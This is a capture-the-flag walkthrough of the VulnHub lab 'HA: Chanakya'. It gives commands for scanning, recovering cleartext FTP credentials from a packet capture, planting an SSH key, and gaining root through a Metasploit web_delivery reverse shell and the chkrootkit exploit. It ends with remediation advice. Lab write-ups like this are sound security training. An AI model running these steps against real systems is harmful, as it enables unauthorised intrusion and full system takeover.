


# HA: Chanakya — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | Read /root/final.txt |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ha-chanakya-vulnhub-walkthrough/) |

## Attack Summary

ROT13-encoded hint in a dirb-discovered text file revealed a packet capture containing FTP credentials in cleartext; FTP write access allowed SSH key injection; chkrootkit local exploit (via Metasploit) escalated to root.

## Methodology

1. Recon — nmap discovers FTP (21), SSH (22), HTTP (80)
2. Enumeration — dirb finds `abuse.txt`; ROT13 decoded to `ashoka.pcapng`; Wireshark reveals FTP creds
3. Exploitation — FTP write access used to upload SSH public key; login as `ashoka`
4. Privilege Escalation — chkrootkit local exploit via Metasploit web_delivery + unix/local/chkrootkit

## Step 1: Reconnaissance

```bash
nmap -sV -sC -p- 192.168.1.101
```

Key open ports:

| Port | Service |
|---|---|
| 21/tcp | FTP (vsftpd) |
| 22/tcp | SSH (OpenSSH) |
| 80/tcp | HTTP |

Browsing the web root, its source, and linked images reveals no obvious entry point.


## Step 2: Enumeration — dirb, ROT13 decode, Wireshark

Run dirb searching for `.txt` files:

```bash
dirb http://192.168.1.101/ -X .txt
```

This reveals `/abuse.txt`. The file contents are ROT13-encoded. Decode them:

```bash
cat abuse.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# Output: ashoka.pcapng
```

Download the packet capture:

```bash
wget http://192.168.1.101/ashoka.pcapng
```

Open it in Wireshark and apply the display filter `ftp`. Follow the TCP stream for the FTP session to see credentials in cleartext:

```
USER ashoka
PASS kautilya
```


## Step 3: Exploitation — FTP SSH Key Injection

Login to FTP with the recovered credentials:

```bash
ftp 192.168.1.101
# Username: ashoka
# Password: kautilya
```

Create an `.ssh` directory and upload an SSH public key as `authorized_keys`:

```bash
# On attacker machine
ssh-keygen -t rsa -f /tmp/ashoka_key -N ""

# In FTP session
mkdir .ssh
put /tmp/ashoka_key.pub .ssh/authorized_keys
```

SSH into the machine as `ashoka`:

```bash
ssh -i /tmp/ashoka_key ashoka@192.168.1.101
```

Explore the system. The file `/tmp/logs` contains chkrootkit output, hinting at the privilege escalation vector:

```bash
cat /tmp/logs
```


## Step 4: Privilege Escalation — chkrootkit Local Exploit

On the attacker machine, set up a Metasploit `web_delivery` payload to obtain a Meterpreter session:

```bash
msfconsole
use exploit/multi/script/web_delivery
set TARGET 7    # Linux
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <LHOST>
set LPORT <LPORT>
run
```

Copy the generated command and execute it from the `ashoka` SSH session. Once the Meterpreter session opens, background it (`background`) and run the chkrootkit escalation:

```bash
use exploit/unix/local/chkrootkit
set SESSION <session_id>
set LHOST <LHOST>
set LPORT 5555
run
```

This drops a root shell on port 5555. Stabilize it:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



## Step 5: Root Flag

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/final.txt
```



## Lessons Learned

1. Encoding (ROT13) is not encryption: any publicly accessible file that encodes its contents provides only the illusion of security.
2. FTP transmits credentials in cleartext; packet captures on the local network trivially expose them.
3. FTP write access to a user's home directory is effectively equivalent to SSH access if the server accepts key-based authentication.
4. The chkrootkit local privilege escalation exploits the fact that chkrootkit runs scripts from `/tmp` as root; placing a malicious file there before chkrootkit runs yields root code execution.

## Remediation

| Vulnerability | Recommended Fix |
|---|---|
| ROT13-encoded credential hint | Remove sensitive hints from publicly accessible web paths |
| FTP cleartext credentials | Replace FTP with SFTP or SCP; disable FTP entirely if not required |
| FTP write access to home dir | Apply strict FTP chroot and read-only where possible; remove unneeded write permissions |
| chkrootkit privilege escalation | Update chkrootkit to a patched version; restrict `/tmp` with `noexec` mount option; run chkrootkit as a non-root user or from a read-only path |
